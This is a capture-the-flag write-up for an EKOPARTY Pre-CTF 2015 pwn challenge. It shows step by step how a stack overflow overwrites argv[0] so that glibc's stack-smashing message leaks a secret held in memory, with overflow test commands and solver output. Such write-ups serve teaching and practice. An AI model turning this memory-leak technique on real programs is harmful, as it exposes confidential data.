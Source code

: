 # EKOPARTY PRE-CTF 2015: Smashing the stack for fun and profit

**Category:** Pwning
**Points:** 100
**Solves:** 69
**Description:**

> nc challs.ctf.site 20001 

>[pwn100](pwn100.zip)

## Write-up

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-smashing-the-stack-for-fun-and-profit/>
* <https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md>
* <https://github.com/dqi/ctf_writeup/tree/master/2015/ekoparty_pre-ctf/pwn/pwn100>
* <https://www.securifera.com/blog/2015/09/23/ekoparty-pre-ctf-smashing-the-stack-for-fun-and-profit/>

### Meta

Keywords:

* Stack Overflow
* Stack Smashing Protector Memory Leak [Source](http://seclists.org/bugtraq/2010/Apr/243)
* Canary

We are given a x86-64bit non-stripped ELF for Linux, zipped:

```bash
$ file ./xpl
xpl: ELF 64-bit LSB  executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=1856a84cc2663caa91e1511a2f0691652201fb95, not stripped
```

We have to provide a flag file named `flag.txt` in order to run it: `echo "EKO{pwning_stack_protector}" > flag.txt `.

Running it:

```bash
$ ./xpl
Interesting data loaded at 0x7fffd209a1e0
Your username? hello
```

We receive an address and can input a username.

Decompiling main using `radare2`:

![](./main.png)

We can see the following:

* `putenv` sets 'LIBC_FATAL_STDERR_=1'
* The content of `flag.txt` is read with `fgets` into the stack at `rbp-0x110` using size `0x20`
* The pointer to this input buffer is printed to us using `__printf`
* Our username input is read into `rbp-0x90` with size `0x400` using `read` - This causes a stack overflow
* A stack canary check is called at `__stack_chk_fail`

With this in mind, we try to trigger a `SIGSEGV`. Our input has to be at least `0x130` (`sub rsp, 0x130`) plus `0x8` (`push rbp`) bytes long.

We start testing various input lengths in manual binary search to find interesting patterns:

```bash
$ p -c 'print "A"*0x130' | ./xpl
Interesting data loaded at 0x7fff92f891e0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x200' | ./xpl 
Interesting data loaded at 0x7fff35f3c2b0
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x1b0' | ./xpl 
Interesting data loaded at 0x7fff7061bff0
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x160' | ./xpl 
Interesting data loaded at 0x7fff41fed390
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x180' | ./xpl 
Interesting data loaded at 0x7fffe93c0d40
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x170' | ./xpl 
Interesting data loaded at 0x7fffa9202d80
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x178' | ./xpl 
Interesting data loaded at 0x7fffaf92d6d0
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x174' | ./xpl 
Interesting data loaded at 0x7fff524293b0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x176' | ./xpl 
Interesting data loaded at 0x7fffc44993b0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x177' | ./xpl 
Interesting data loaded at 0x7fffee2d14f0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x178' | ./xpl 
Interesting data loaded at 0x7fff2a131a20
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x179' | ./xpl 
Interesting data loaded at 0x7fffbe5440d0
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x17a' | ./xpl 
Interesting data loaded at 0x7fff9f21abf0
Your username? Segmentation fault (core dumped)
```

We can see that beginning at `0x178`, the stack smashing output does not contain the program name and disappears in it's entirety at `0x17a`.

As it turns out, this stack smashing detection technique (known as [Fortify](https://securityblog.redhat.com/2014/03/26/fortify-and-you/)) can be exploited.

As [this writeup](https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md) hints, [this bugtraq](http://seclists.org/bugtraq/2010/Apr/243) shows that by overwriting argv[0] (which is the program name and used by fortify in the error message) wiht a known pointer to interesting memory data, it will print out this otherwise secret memory data instead of the program name.

[This python script]() tries various offsets for the argv[0] address until finding the correct one at offset `0x176` == `376`:

```bash
$ p solve.py 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff8774bc50
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 372 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff98b86300
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 373 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fffabd54120
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 374 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fffd6f46f40
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 375 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff5a11db40
[+] Recieving all data: Done (73B)
[*] Program './xpl' stopped with exit code -6
[ 376 ]: *** stack smashing detected ***: EKO{pwning_stack_protector}
 terminated
```

The flag is `EKO{pwning_stack_protector}`.

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-smashing-the-stack-for-fun-and-profit/>
* <https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md>
* <https://github.com/dqi/ctf_writeup/tree/master/2015/ekoparty_pre-ctf/pwn/pwn100>
* <https://www.securifera.com/blog/2015/09/23/ekoparty-pre-ctf-smashing-the-stack-for-fun-and-profit/>
* [Spanish](http://rmolina.co/2015/09/prectf-ekoparty-2015.html)
